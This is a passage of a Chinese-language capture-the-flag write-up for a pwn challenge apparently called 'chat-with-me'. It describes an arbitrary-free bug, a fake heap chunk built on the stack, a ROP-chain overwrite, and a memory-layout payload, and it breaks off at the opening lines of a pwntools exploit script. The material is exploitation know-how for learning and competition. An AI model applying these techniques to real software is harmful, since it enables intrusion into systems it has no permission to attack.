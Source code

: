 经过打断点 free 发现，以上数据在 read 函数的栈上.  
当前笔者思路是 free 到一个受用户操控的地址(必须要能够操控 chunk header). 而纵观整个程序流程，用户可以操控的位置要么是以上的栈空间，要么是一个 stdin 的缓冲区空间. 在这种情况下操控 栈空间 很明显是更明智之举：  

当前程序的调用栈在 read 函数，操控此处的栈空间后，在下一次调用 read 时就极有可能将用户输入的 chunk alloc 到此处，并且其栈底的关键数据也在此处. 

接下来把目光转向 delete 函数，Index 用户可以输入完全超过长度，经过打断点 malloc 调试发现程序逻辑大概是：用户输入了多少个字节的数据，他就 malloc 多少个字节的 chunk. 并将用户输入写入到其中. 

`在测试中，笔者输入了 0x27 个字节(包括\x00)，该函数 malloc 了 0x27 个`  
![qwb](/image/qwbs8/18.png)

在 delete 时又有发现，read_line 函数调用时的 rbp 指向的栈地址，正好为如下的 第八个地址处:  

```
0xa
0x5651d8238bb0
0x5
0x8             <- 长度
0x5651d8238bb0  <- free 的地址
0x2
0x5651d7afd5b0
0x5651d8236b00  <- delete 时 rbp 的位置
0x0
0x7
```

这样，一切就通了：

1. 使用任意地址 free 漏洞，输入以下 payload，free 掉第八个位置造的假 chunk  
   (第八个位置可由 show 函数泄露的信息推断出来)

```
0x0
0x0
0x0
0x401           <- 长度
第八个位置       <- free 的地址
0x0             <- 假 chunk header
0x401           <- 假 chunk header
0x5651d8236b00  <- 假 chunk, delete 时 rbp 的位置
0x0
0x7
```

1. 在 delete 时输入一个长度为 0x3f0 大小的二进制数据，好让该数据分配到假 chunk，并且该数据为精心构造的 rop 链即可
   
在分配时需要注意调整 rop 链长度，避免进入 read_line 函数 utf-8 处理

### [](#header-3)EXP

```py
# by leeya_bug

from ast import literal_eval
from pwn import *
import time
import os

SLEEP_TIME = 0.2

context.os = 'linux'
#context.log_level = "debug"
x64_32 = True
context.arch = 'amd64' if x64_32 else 'i386'

p = process('./debug/chat-with-me')
```